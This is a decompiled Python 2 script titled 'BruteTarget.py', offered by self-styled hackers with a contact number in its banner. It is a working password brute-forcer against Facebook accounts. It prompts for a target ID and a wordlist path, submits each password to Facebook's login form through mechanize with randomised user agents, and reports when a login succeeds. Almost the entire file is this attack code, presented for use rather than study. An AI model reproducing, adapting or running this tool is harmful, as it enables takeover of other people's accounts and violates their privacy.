 # target.py
#decompile by king hamii  #okay decompiling target.py  #----------------------------------------  # Decompile by : king hamii  # Github : https://github.com/MuhammadRaja786  #-----------------------------------------  """  BruteTarget.py  Created by AuthenticXploit on 09/07/2021.  Copyright (c) 2021 Copyright Holder. All rights reserved.  """  try:      import sys, mechanize, cookielib, random, os, time      from os import system      from time import sleep      from sys import exit  except ImportError as f:      system('clear')      print ('\x1b[32;1m[\x1b[31;1m!\x1b[32;1m] \x1b[0;33mError \x1b[31;1m: \x1b[37;1m{}').format(f)  banner = "\x1b[36;1m \n                     \n     \x1b[1;97m NAME   \x1b[31;1m:  \x1b[32mRAJA THE HACKER\n     \x1b[1;97m WHATSAPP     \x1b[31;1m:  \x1b[32m+923022536182\n     \x1b[1;97m NOTE  \x1b[31;1m       :  \x1b[32mUSE 4G SPEED INTERNET\n     \x1b[1;97m NOTE  \x1b[31;1m       :  \x1b[32mDONT COPY MY STYLE  \n     \x1b[1;97m NOTE   \x1b[31;1m       :  \x1b[32mFEEL NA KR KAKA \n     \x1b[1;97mOR SUN  \x1b[31;1m       :  \x1b[32mWORLDPASS LIST LAGA ID LY   OR BAG  \n     \x1b[1;97mJIGERS  \x1b[31;1m       :  \x1b[32mRAJA+KHASKHELI  \n     \x1b[1;97m\n"  def slowprint(s):      for c in s + '\n':          sys.stdout.write(c)          sys.stdout.flush()          sleep(2.0 / 90)  system('clear')  slowprint(banner)  email = str(raw_input('\x1b[37;1mINPUT TARGET ID   \x1b[31;1m: \x1b[33;1m'))  passwordlist = str(raw_input('\x1b[37;1minput passlist path( passlist.txt ) \x1b[31;1m: \x1b[33;1m'))  login = 'https://www.facebook.com/login.php?login_attempt=1'  useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]  def main():      global br      try:          br = mechanize.Browser()          cj = cookielib.LWPCookieJar()          br.set_handle_robots(False)          br.set_handle_redirect(True)          br.set_cookiejar(cj)          br.set_handle_equiv(True)          br.set_handle_referer(True)          br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)          menu()          search()          print '\x1b[32;1m[\x1b[31;1m!\x1b[32;1m]\x1b[33;1m Password does not exist in the passlist'      except mechanize.URLError:          print '\n\x1b[32;1m[\x1b[31;1m!\x1b[32;1m]\x1b[33;1m No Connection'          sleep(2)          print '\x1b[32;1m[\x1b[31;1m!\x1b[32;1m] \x1b[31;1mExit\x1b[0m'          exit()  def brute(password):      sys.stdout.write(('\x1b[36;1m\r[\x1b[33;1m-\x1b[36;1m] \x1b[37;1mTrying Password \x1b[31;1m=> \x1b[33;1m{}\n').format(password))      sys.stdout.flush()      br.addheaders = [('User-agent', random.choice(useragents))]      site = br.open(login)      br.select_form(nr=0)      br.form['email'] = email      br.form['pass'] = password      sub = br.submit()      log = sub.geturl()      if log != login and 'login_attempt' not in log:          print ('\x1b[36;1m[\x1b[33;1m+\x1b[36;1m] \x1b[37;1mPassword Found => \x1b[32;1m{}').format(password)          raw_input('\x1b[31;1mANY KEY to Exit....')          exit(1)  def search():      global password      passwords = open(passwordlist, 'r')      for password in passwords:          password = password.replace('\n', '')          brute(password)  def menu():      try:          total = open(passwordlist, 'r')          total = total.readlines()          print banner          print ('\x1b[36;1m[\x1b[31;1m-\x1b[36;1m] \x1b[32;1mAccount to crack \x1b[31;1m> \x1b[0;33m{}').format(email)          print '\x1b[36;1m[\x1b[31;1m-\x1b[36;1m] \x1b[32;1mLoaded \x1b[31;1m>\x1b[0;33m', len(total), 'passwords'          print '\x1b[36;1m[\x1b[31;1m-\x1b[36;1m] \x1b[33;1mCracking, please wait ...\n'      except IOError:          print ('\n\x1b[32;1m[\x1b[31;1m!\x1b[32;1m]\x1b[33;1m File wordlist \x1b[36;1m{} \x1b[33;1mNot Found\x1b[0m').format(passwordlist)          exit()  if __name__ == '__main__':      try:          main()      except (KeyboardInterrupt, EOFError):          print '\x1b[36;1m\n[\x1b[31;1m!\x1b[36;1m]\x1b[33;1mDetects a forced stop program \x1b[0m'          exit(0)
